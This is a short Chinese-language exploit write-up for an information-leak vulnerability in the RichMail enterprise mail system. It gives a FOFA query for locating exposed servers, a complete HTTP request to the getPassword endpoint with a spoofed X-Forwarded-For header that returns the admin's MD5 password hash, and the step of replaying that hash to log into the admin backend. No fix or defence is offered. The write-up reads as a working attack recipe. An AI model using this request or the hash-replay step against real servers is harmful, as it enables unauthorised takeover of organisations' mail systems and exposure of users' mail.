 # RichMail 企业邮箱敏感信息泄漏漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">  Richmail是亚太本土最大的电子邮件系统提供商之一，是新一代智慧企业云邮件系统，以安全、稳定、高效著称。Richmail作为投资千万，自主研发的邮件系统，获得了多项发明专利，凭借移动化、套件化、能力开放及服务计量等等核心技术，持续引领全球邮箱领域的发展方向，每天数以亿计的智慧和信息在Richmail汇聚、碰撞、传递。RichMail某版本存在信息泄漏漏洞，未经授权的攻击者可以利用此漏洞获取企业邮箱的账号密码信息，登陆管理后台。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ RichMail 企业邮箱

# 三、资产测绘
+ fofa`app="Richmail-企业邮箱"`
+ 特征

![1698649024138-ac0b79ce-40c0-4dcd-a7e8-6e25b26e5202.png](./img/JPHu9Cvqk-3yYyGV/1698649024138-ac0b79ce-40c0-4dcd-a7e8-6e25b26e5202-025912.png)

# 四、漏洞复现
按需调整`X-Forwarded-For: 127.0.0.1`

```plain
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1
Host: xx.xx.xx.xx
Cookie: lang=zh_CN
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1698649060171-6bcea3b8-efd4-4a42-bd6b-bb9f6f17cff0.png](./img/JPHu9Cvqk-3yYyGV/1698649060171-6bcea3b8-efd4-4a42-bd6b-bb9f6f17cff0-811517.png)

获取管理员MD5加密值后抓去登陆数据包替换即可进入后台

![1698649267168-8c5ddd8b-5070-4841-9109-627032ea6d62.png](./img/JPHu9Cvqk-3yYyGV/1698649267168-8c5ddd8b-5070-4841-9109-627032ea6d62-103965.png)

![1698649300470-de7ba283-6de1-4d76-91f7-f3254744b023.png](./img/JPHu9Cvqk-3yYyGV/1698649300470-de7ba283-6de1-4d76-91f7-f3254744b023-812193.png)



> 更新: 2024-02-29 23:57:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nngn0owe1cvrrahv>